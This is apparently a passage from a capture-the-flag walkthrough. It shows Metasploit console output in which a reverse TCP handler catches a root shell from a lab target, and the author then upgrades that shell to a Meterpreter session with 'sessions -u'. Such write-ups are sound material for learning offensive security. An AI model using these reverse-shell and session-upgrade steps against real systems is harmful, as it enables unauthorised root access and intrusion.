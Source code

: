     Payload options (linux/x64/shell/reverse_tcp):

       Name   Current Setting  Required  Description
       ----   ---------------  --------  -----------
       LHOST  10.10.14.14      yes       The listen address (an interface may be specified)
       LPORT  9002             yes       The listen port


    Exploit target:

       Id  Name
       --  ----
       0   Wildcard Target


    msf exploit(multi/handler) > run

    [*] Started reverse TCP handler on 10.10.14.14:9002 
    [*] Sending stage (38 bytes) to 10.10.10.94
    [*] Command shell session 1 opened (10.10.14.14:9002 -> 10.10.10.94:44602) at 2018-07-27 06:33:58 -0400

    /bin/sh: 0: can't access tty; job control turned off
    # 



For some reason, the first command run in this new shell can be garbage
and fail. After making sure to get that out of the way, I'll background
the session (ctrl-z):



    # id
    /bin/sh: 1: j^H��j!Xu�j: not found
    /bin/sh: 1: X�H�/bin/shSH��RWH��id: not found
    # id
    uid=0(root) gid=0(root) groups=0(root)
    # ^Z
    Background session 1? [y/N]  y
    msf exploit(multi/handler) >



Metasploit has a built in upgrade path to Meterpretere using
`sessions -u`:



    msf exploit(multi/handler) > sessions -u 1
    [*] Executing 'post/multi/manage/shell_to_meterpreter' on session(s): [1]

    [*] Upgrading session ID: 1
    [*] Starting exploit/multi/handler
    [*] Started reverse TCP handler on 10.10.14.14:4433 
    [*] Sending stage (861480 bytes) to 10.10.10.94
    [*] Meterpreter session 2 opened (10.10.14.14:4433 -> 10.10.10.94:58956) at 2018-07-27 06:37:15 -0400
    [*] Command stager progress: 100.00% (773/773 bytes)
    msf exploit(multi/handler) > sessions -i 2
    [*] Starting interaction with 2...
